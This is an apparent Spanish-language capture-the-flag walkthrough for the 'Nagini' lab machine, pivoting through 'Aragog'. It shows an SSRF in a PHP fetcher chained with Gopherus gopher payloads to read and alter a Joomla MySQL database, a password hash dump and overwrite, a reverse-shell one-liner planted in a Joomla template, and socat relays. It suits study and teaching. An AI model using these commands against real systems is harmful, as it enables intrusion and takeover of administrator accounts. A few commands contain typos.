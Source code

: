 [[10.10.0.4 (Aragog)]]
- Pwned #Nagini
`#CSRF` `#HTTP3`
Hacemos un scaneo con [[NMAP]] para ver los puertos abiertos:
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 10.10.0.5`

```python
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Podemos agilizar la búsqueda mas si usamos un secuenciador junto con xargs
`seq 1 65535 | xargs -P 700 -I {} nmap -sT -Pn -p{} -open -T5 -n -v 10.10.0.5 | grep "tcp open"`

Navegaremos a la pagina web que nos muestra que esta levantada en el puerto `80`
Vemos información sobre la web con la herramienta con [[WHATWEB]]
`whatweb http://10.10.0.5/`
```python
http://10.10.0.5/ [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[10.10.0.5]
```

Vamos a hacer fuzzing sobre la web con la herramienta [[GOBUSTER]]
`gobuster dir -u http://10.10.0.5/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt`
Este nos encontrara los siguientes ficheros
`index.html`
`/joomla`
`note.txt` con el siguiente contenido:
```txt
Hello developers!!


I will be using our new HTTP3 Server at https://quic.nagini.hogwarts for further communications.
All developers are requested to visit the server regularly for checking latest announcements.


Regards,
site_amdin
```

Esto nos indica que se esta usando `HTTP3` que es la tercera versión de HTTP utiliza un puerto UDP
Usaremos la herramienta de quiche con la tool de `./http3-client` como en esta caso no conseguía utilizarla seguí el siguiente paso del video en el que se descubre la ruta:
`/internalResourceFeTcher.php` así que accedemos a ella desde el navegador

Vemos que la URL esta en método get, así que usando la opción 
`?url=` podremos traer al navegador actual por ejemplo llamar a `http://localhost` nos muestra la web del localhost, al igual que podemos cargar la web de la maquina [[10.10.0.4 (Aragog)]] aunque no cargue la imagen. Esto acontece un SSRF (Server Side Request Forgery) y lo podemos usar para enumerar los puertos y servicios internos de la maquina.

Para poder tener conectividad con nuestra maquina atacante lo que haremos sera descargar `socat` y nos lo trasferiremos a la maquina intermedia 192.168.1.23  [[10.10.0.4 (Aragog)]]
Le daremos permisos de ejecución y ejecutaremos la herramienta de la siguiente forma:
`./socat TCP-LISTEN:4343,fork TCP:192.168.1.19:80`
Estamos indicando que todo lo que se pida por el puerto 4343 lo envié a través de la ip de 192.168.1.23  por el puerto 80

En nuestra maquina atacante levantaremos un servidor con python y desde la web de la maquina [[10.10.0.5(Nagini)]] en la url encontrada probamos a acceder a la maquina [[10.10.0.4 (Aragog)]] por el puerto 4343 que es el que le hemos indicado en socat

Ahora desde dentro de la url como tenemos levantado nuestro servidor de python y habilitado todo lo que es el pivoting y el renvió de paquetes intentamos acceder por la url a u8n archivo que creemos en nuestra maquina atacante que se llame `pwned.php` y ver si lo interpreta.

Como no lo interpreta, también encontramos el directorio `/joomla` así que navegamos a el. Usaremo0s la herramienta joomscan para hacer enumeración de vulnerabilidades.
`joomscan -u http://10.10.0.5/joomla/`

La respuesta de la ejecución de esta herramienta nos muestra que esta expuesta la interfaz del administrador `http://10.10.0.5/joomla/administrator/`

También nos encuentra un archivo .bak `http://10.10.0.5/joomla/configuration.php.bak`
Nos lo intentamos descargar para ver su contenido con: `curl -s -X GET http://10.10.0.5/joomla/configuration.php.bak > configuration.php`

Vemos que es un archivo de configuración de la base de datos
Usaremos `gopher` que te permite enumerar bases de datos desde `gopher://` 
Nos clonaremos el repositorio: `git clone https://github.com/tarunkant/Gopherus`
Le damos permisos de ejecución al archivo .py y luego hacemos un enlace simbólico para poder llamarlo desde cualquier parte del sistema: `ln -sf $(pwd)/gopherus.py /usr/local/bin/gopherus`

Ejecutaremos la herramienta con:
`gopherus --exploit mysql` introducimos el nombre de usuario que hemos encontrado en el archivo .bak
Ahora deberemos indicar que QUERY queremos ejecutar por ejemplo, enumerar las bases de datos:
`SHOW databases;`
Y nos muestra una URL a la que podemos acceder desde el navegado donde esta la web que nos permitía inyectar URL en `http://10.10.0.5/internalResourceFeTcher.php`
Tendremos que recargar la pagina varias veces hasta que nos muestre la información, vemos que hay una base de datos llamada joomla, así que ahora enumeraremos las tablas de esa base de datos.
Volvemos a usar el usuario encontrado pero en la QUERY usaremos: `USE joomla; show tables;`

La URL que nos muestra, la volvemos a copiar y la metemos en la pagina de `http://10.10.0.5/internalResourceFeTcher.php` y vemos que hay una tabla de usuarios `joomla_users`

Ahora enumeraremos esa tabla con la misma herramienta y la QUERY: `USE joomla; describe joomla_users;`, vemos que hay columnas de usuario, mail, password, etc...

Nuestra nueva QUERY será: `USE joomla; select name,username,email,password from joomla_users;` y nos mostrara la contraseña del usuario administrador de forma crakeada:
`$2y$10$cmQ.akn2au104AhR4.YJBOC5W13gyV21D/bkoTmbWWqFWjzEW7vay`

Intentaremos crakearlas con [[JOHN THE RIPPER]]: `john --wordlist=/usr/share/wordlists/rockyou.txt hash` 
No vamos a conseguir crakearla así que intentaremos alterar los datos de los usuarios atreves de la herramienta de Gopherus con la siguiente QUERY: `USE joomla; update joomla_users set password='482c811da5d5b4bc6d497ffa98491e38' where username='site_admin';`

El hash de MD5 lo hemos creado a través de la siguiente ejecución: `echo -n "password123" | md5sum` 

Lo volvemos a meter en nuestra web en la que estamos trabajando y nos dice que se ha ejecutado un cambio, ahora en el panel de administración de joomla en la parte del login intentamos acceder con el usuario `site_admin::pasword123` y conseguiremos acceso al panel de administración.

La intrusión se realiza a través de los templates, alojados en la pestaña de Extensions, y se modificara la plantilla de `erro.php`
En la plantilla realizaremos un oneLiner para traernos una bash a nustra maquina atacante, pero como no llega lo tenemos que enviar al nodo mas cercano que en esta caso es [[10.10.0.4 (Aragog)]]:
`system("bash -c'bash -i >& /dev/tcp/10.10.0.4/1111 o>&1'");`

Guardamos el archivo dándole a save. 
Nos conectaremos por SSH a la maquina ARAGOG `ssh root@192.168.1.23`
En nuestra maquina nos pondremos en escucha por el puerto 443 `nc -nlvp 443`

Ahora en la maquina ARAGOG usaremos el socat para redirigir todo el trafico que le entre a ella por el puerto `1111` que lo redirija al `443` de nuestra maquina atacante que es donde estamos nosotros en escucha.

Obtendremos una shell, entonces realizaremos un tratamiento de esta.

Probamos la ver como se puede escalar privilegios, usando `sudo -l` no nos da ninguna opción y ahora buscamos desde la raid con `find / -perm -4000 2>/dev/null`
Encontramos la siguiente ruta `/home/hermoine/bin/su_cp` 




















